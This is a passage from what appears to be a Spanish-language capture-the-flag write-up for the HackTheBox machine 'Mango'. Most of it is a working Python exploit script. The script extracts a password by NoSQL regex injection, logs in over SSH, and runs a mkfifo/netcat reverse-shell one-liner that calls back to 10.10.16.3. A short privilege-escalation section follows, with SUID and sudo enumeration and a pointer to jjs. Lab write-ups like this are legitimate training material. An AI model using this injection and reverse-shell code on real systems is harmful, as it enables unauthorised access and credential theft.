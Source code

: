 ```python
    for x in range(0, 20):
        for character in characters:

            p1.status("Probando con el caracter %c" % character)

            # NoSQL Injection
            post_data = {
                'username': 'mango',
                'password[$regex]': f"^{re.escape(password + character)}",
                'login': 'login'
            }

            r = requests.post(main_url, data=post_data, allow_redirects=False)

            if r.status_code == 302:
                password += character
                p2.status(password)
                break

    return password

def sshConnection(username, password):

    s = pxssh.pxssh()
    s.login('10.10.10.162', username, password)
    s.sendline("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 443 >/tmp/f")
    s.prompt()
    s.logout()

if __name__ == '__main__':

    password = makeRequest()

    try:
        threading.Thread(target=sshConnection, args=('mango', password)).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    shell.interactive()
```## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
find \-perm -4000 2>/dev/null
ls -la ./usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
